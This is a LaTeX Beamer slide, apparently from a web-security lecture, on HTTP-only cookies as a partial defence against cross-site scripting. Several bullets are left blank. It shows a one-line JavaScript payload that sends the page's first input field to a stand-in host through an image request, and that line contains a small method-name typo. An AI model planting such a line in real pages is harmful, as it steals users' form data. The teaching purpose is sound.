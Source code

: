 
\begin{frame}<1-2>[fragile,label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item \texttt{Set-Cookie: SessionID=123456789; HttpOnly}
    \item ``only send cookie in HTTP''
    \item cookie is 
    \item eliminates obvious way of exploiting XSS
    \item problem: 
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
(new Image()).src = "https://example.com/?" + document.getElementByTagName('input')[0].value
\end{Verbatim}
\end{frame}

